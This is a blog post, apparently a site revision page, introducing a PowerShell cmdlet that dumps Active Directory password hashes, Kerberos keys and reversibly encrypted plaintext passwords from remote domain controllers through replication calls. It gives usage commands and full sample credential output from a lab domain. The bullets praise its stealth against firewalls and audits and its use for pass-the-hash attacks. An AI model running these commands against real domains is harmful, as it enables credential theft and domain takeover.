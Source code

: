 ```yaml
---
id: 9607
title: Retrieving Active Directory Passwords Remotely
date: 2018-07-11T12:41:17+00:00
author: Michael Grafnetter
layout: revision
guid: https://www.dsinternals.com/4251-revision-v1/
permalink: /4251-revision-v1/
---
```

<p style="text-align: justify;">
  I&nbsp;have finally finished work on the <b>Get-ADReplAccount</b> cmdlet, the&nbsp;newest addition to&nbsp;my <a href="https://www.dsinternals.com/en/downloads/">DSInternals PowerShell Module</a>, that&nbsp;can retrieve <a href="https://technet.microsoft.com/en-us/library/hh994559.aspx">reversibly encrypted plaintext passwords</a>, password hashes and&nbsp;Kerberos keys of&nbsp;all user accounts from&nbsp;remote domain controllers. This is&nbsp;achieved by&nbsp;simulating the&nbsp;behavior of&nbsp;the <strong>dcromo</strong> tool and&nbsp;creating a&nbsp;replica of&nbsp;Active Directory database through the&nbsp;<a href="https://msdn.microsoft.com/en-us/library/cc228086.aspx">MS-DRSR</a> protocol. Furthermore, it has these properties:
</p>

<li style="text-align: justify;">
  It does not even&nbsp;need the&nbsp;Domain Admins group membership. The&nbsp;<b>Replicating Directory Changes All</b> permission is&nbsp;more than&nbsp;enough for&nbsp;this cmdlet to&nbsp;do its job.
</li>
<li style="text-align: justify;">
  It opens door to&nbsp;other attacks, e.g.&nbsp;pass-the-hash, pass-the-ticket or&nbsp;PAC spoofing, that&nbsp;can be used to&nbsp;seize control of&nbsp;the entire Active Directory forest. Long live <a href="https://github.com/gentilkiwi/mimikatz">mimikatz</a>!
</li>
<li style="text-align: justify;">
  It cannot be effectively blocked by&nbsp;firewalls, because&nbsp;the&nbsp;directory replication service (the <a href="http://IDL_DRSGetNCChanges">DRSGetNCChanges</a> call to&nbsp;be more precise) shares the&nbsp;same port with other critical services, like user name resolution (exposed by&nbsp;the <a href="https://msdn.microsoft.com/en-us/library/ms675970(v=vs.85).aspx">DsCrackNames</a> call).
</li>
<li style="text-align: justify;">
  It only uses documented features of&nbsp;Active Directory and&nbsp;is&nbsp;not a&nbsp;hack per se.
</li>
<li style="text-align: justify;">
  It leaves only minimal footprint on Domain Conrollers and&nbsp;can be easily overlooked by&nbsp;security audits.
</li>

Usage example:

<pre class="lang:ps decode:true">Import-Module DSInternals
$cred = Get-Credential
Get-ADReplAccount -SamAccountName April -Domain Adatum -Server LON-DC1 `
-Credential $cred -Protocol TCP</pre>

Sample output:

<pre class="nums:false lang:default highlight:0 decode:true">DistinguishedName: CN=April Reagan,OU=IT,DC=Adatum,DC=com
Sid: S-1-5-21-3180365339-800773672-3767752645-1375
Guid: 124ae098-699b-4450-a47a-314a29cc90ea
SamAccountName: April
SamAccountType: User
UserPrincipalName: April@adatum.com
PrimaryGroupId: 513
SidHistory: 
Enabled: True
Deleted: False
LastLogon: 
DisplayName: April Reagan
GivenName: April
Surname: Reagan
Description: 
NTHash: 92937945b518814341de3f726500d4ff
LMHash: 727e3576618fa1754a3b108f3fa6cb6d
NTHashHistory: 
  Hash 01: 92937945b518814341de3f726500d4ff
  Hash 02: 1d3da193d2f45911a6f0fa940b9fb32f
  Hash 03: 402bc59d8a00641b7f386e78596340f4
LMHashHistory: 
  Hash 01: 727e3576618fa1754a3b108f3fa6cb6d
  Hash 02: 5a5503d0e85f58abaad3b435b51404ee
  Hash 03: f9393d97e7a1873caad3b435b51404ee
SupplementalCredentials:
  ClearText: Pa$$w0rd
  Kerberos:
    Credentials:
      DES_CBC_MD5
        Key: 76fe3b5bda911a40
    OldCredentials:
      DES_CBC_MD5
        Key: 7f8c4f38e0ea0b80
    Salt: ADATUM.COMApril
    Flags: 0
  KerberosNew:
    Credentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 3a3b6a89bb82d112db5ef68f6db5d1afc2b806df61dcd85e3eacf3b85ee382d8
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: a72c8bc96c4a6f03244f0b0067a1e440
        Iterations: 4096
      DES_CBC_MD5
        Key: 76fe3b5bda911a40
        Iterations: 4096
    OldCredentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 14e46244a59a37cd8aa7c1fe61896441c7d065fafe4874191e69c1fe28856810
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: 034b512ec64286dec951d6aff8d81fa8
        Iterations: 4096
      DES_CBC_MD5
        Key: 7f8c4f38e0ea0b80
        Iterations: 4096
    OlderCredentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 2387ca8f936c8c154996809af8fee7c47fe4b9b5dd84d051fc43a9289bbaa3ab
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: 29d536ec057f9063747161429b81f056
        Iterations: 4096
      DES_CBC_MD5
        Key: 58f1cbe6e50e1f83
        Iterations: 4096
    ServiceCredentials:
    Salt: ADATUM.COMApril
    DefaultIterationCount: 4096
    Flags: 0
  WDigest:
    Hash 01: c3d012ab1101eb8f51b483fb4c5f8a7e
    Hash 02: c993da396914645b356ae7816251fcb1
    Hash 03: 6b58530cab34de91189a603e22c2be15
    Hash 04: c3d012ab1101eb8f51b483fb4c5f8a7e
    Hash 05: 5a762cf59fa31023dcba1ebd4725b443
    Hash 06: c78bac91c0ba25cae5d44460fd65a73b
    Hash 07: 59d73cea16afd1aac6bf8acfa2768621
    Hash 08: d2be383db9469a39736d9e2136054131
    Hash 09: 079de9f4d94d97a80f1726497dfd1cc2
    Hash 10: 85dbe1549d5fbfcc91f7fe5ac5910f52
    Hash 11: 961a36bded5535b8fc15b4b8e6c48b93
    Hash 12: 6ac8a60d83e9ae67c2097db716a6af17
    Hash 13: e899e577d5f81ef5288ab67de07fad9a
    Hash 14: 135452ab86d40c3d47ca849646d5e176
    Hash 15: a84c367eaa334d0a4cb98e36da011e0f
    Hash 16: 61a458eb70440b1a92639452f0c2c948
    Hash 17: 238f4059776c3575be534afb46be4ccf
    Hash 18: 03ddf370064c544e9c6dbb6ccbf8f4ac
    Hash 19: 354dd6c77ccf35f63e48cd5af6473ccf
    Hash 20: 5f9800d734ebe9fb588def6aaafc40b7
    Hash 21: 59aab99ebcddcbf13b96d75bb7a731e3
    Hash 22: f1685383b0c131035ae264ee5bd24a8d
    Hash 23: 3119e42886b01cad00347e72d0cee594
    Hash 24: ebef7f2c730e17ded8cba1ed20122602
    Hash 25: 7d99673c9895e0b9c484e430578ee78e
    Hash 26: e1e20982753c6a1140c1a8241b23b9ea
    Hash 27: e5ec1c63e0e549e49cda218bc3752051
    Hash 28: 26f2d85f7513d73dd93ab3afd2d90cf6
    Hash 29: 84010d657e6b58ce233fae2bd7644222</pre>

<p style="text-align: justify;">
  You could even dump all accounts at once, but&nbsp;this can cause heavy (=suspicious) replication traffic:
</p>

<pre class="lang:ps decode:true ">Get-ADReplAccount -All -NamingContext 'DC=Adatum,DC=com' -Server LON-DC1</pre>